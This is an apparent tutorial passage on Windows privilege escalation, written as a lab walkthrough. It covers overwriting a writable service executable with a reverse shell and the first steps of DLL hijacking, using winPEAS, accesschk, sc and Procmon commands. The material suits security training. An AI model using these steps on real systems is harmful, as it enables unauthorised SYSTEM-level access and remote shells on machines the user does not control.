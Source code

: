 ## Insecure Service Executables
If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable.
Remember to create a backup of the original executable if you are exploiting this in a real system!

### Privilege Escalation
1. Run winPEAS to check for service misconfigurations:
```
.\winPEASany.exe quiet servicesinfo
```
2. Note that the “filepermsvc” service has an executable which appears to be
writable by everyone. We can confirm this with accesschk.exe:
```
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```
3. Create a backup of the original service executable:
```
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```
4. Copy the reverse shell executable to overwrite the service executable:
```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```
5. Start a listener on Kali, and then start the service to trigger the
exploit:
```
net start filepermsvc
```

## DLL Hijacking
Often a service will try to load functionality from a library called a DLL (dynamic-link library). Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it.

If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.

A more common misconfiguration that can be used to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searches for DLLs in.

Unfortunately, initial detection of vulnerable services is difficult, and often the entire process is very manual.

### Privilege Escalation
1. Use winPEAS to enumerate non-Windows services:
```
.\winPEASany.exe quiet servicesinfo
```
2. Note that the C:\Temp directory is writable and in the PATH. Start by
enumerating which of these services our user has stop and start access to:
```
.\accesschk.exe /accepteula -uvqc user dllsvc
```
3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the
winPEAS output, the service runs the dllhijackservice.exe executable. We
can confirm this manually:
```
sc qc dllsvc
```
4. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.
5. Add a new filter on the Process Name matching dllhijackservice.exe.
6. On the main screen, deselect registry activity and network activity.
7. Start the service:
```
net start dllsvc
```